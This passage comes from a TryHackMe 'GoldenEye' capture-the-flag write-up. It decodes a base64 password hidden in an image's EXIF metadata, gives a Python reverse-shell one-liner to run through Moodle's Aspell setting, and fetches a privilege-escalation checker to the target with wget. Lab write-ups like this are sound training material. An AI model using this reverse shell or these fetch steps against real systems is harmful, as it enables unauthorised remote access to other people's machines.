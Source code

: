```
X Resolution                    : 300
Y Resolution                    : 300
Exif Byte Order                 : Big-endian (Motorola, MM)
Image Description               : eFdpbnRlcjE5OTV4IQ==
Make                            : GoldenEye
Resolution Unit                 : inches
Software                        : linux
Artist                          : For James
Y Cb Cr Positioning             : Centered
Exif Version                    : 0231
Components Configuration        : Y, Cb, Cr, -
User Comment                    : For 007
Flashpix Version                : 0100
Image Width                     : 313
Image Height                    : 212
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:4:4 (1 1)
Image Size                      : 313x212
Megapixels                      : 0.066
```

```
kali@kali:~/CTFs/tryhackme/GoldenEye$ echo 'eFdpbnRlcjE5OTV4IQ==' | base64 -d
xWinter1995x!
```

13. As this user has more site privileges, you are able to edit the moodles settings. From here get a reverse shell using python and netcat. Take a look into Aspell, the spell checker plugin.

```py
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.106.222",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

## Task 4 Privilege Escalation

Now that you have enumerated enough to get an administrative moodle login and gain a reverse shell, its time to priv esc.

1. Download the linuxprivchecker to enumerate installed development tools.

To get the file onto the machine, you will need to wget your local machine as the VM will not be able to wget files on the internet. Follow the steps to get a file onto your VM:

* Download the linuxprivchecker file locally
* Navigate to the file on your file system
* Do: python -m SimpleHTTPServer 1337 (leave this running)
* On the VM you can now do: wget <your IP>/<file>.py

OR

Enumerate the machine manually.
